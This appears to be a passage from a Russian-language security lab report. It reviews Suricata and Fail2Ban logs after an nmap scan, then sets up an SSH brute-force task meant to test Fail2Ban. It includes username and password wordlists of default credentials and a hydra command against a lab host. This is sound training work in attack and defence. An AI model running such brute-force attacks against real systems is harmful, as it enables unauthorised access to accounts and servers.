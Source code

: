 #### Анализ результатов разведки

**Реакция систем защиты:**

**Suricata:**
- Логи пусты - сканирование nmap не было обнаружено как атака
- Причина: правила по умолчанию не настроены для обнаружения портового сканирования

**Fail2Ban:**
- Обнаружены исторические попытки атак на SSH от внешних IP-адресов:
  - 209.14.2.218 (2025-10-12 07:27:46)
  - 2.57.121.112 (2025-10-12 07:30:20)
  - 77.91.82.170 (2025-10-12 07:32:26)
  - 103.93.201.42 (2025-10-12 07:34:07)

**Обнаруженные службы:**
- SSH (порт 22/tcp) - OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
- Операционная система: Linux

### Задание 2: Атака на подбор пароля SSH

#### Цель
Провести атаку на подбор пароля для службы SSH и проанализировать эффективность защиты Fail2Ban.

#### Подготовка атаки

**Файл users.txt:**
```
msfadmin
root
admin
user
test
administrator
guest
ubuntu
```

**Файл pass.txt:**
```
password
123456
admin
root
msfadmin
test
password123
letmein
qwerty
12345
```

#### Выполнение атаки

**Попытка атаки с hydra:**
```bash
hydra -L users.txt -P pass.txt 10.128.0.8 ssh
```
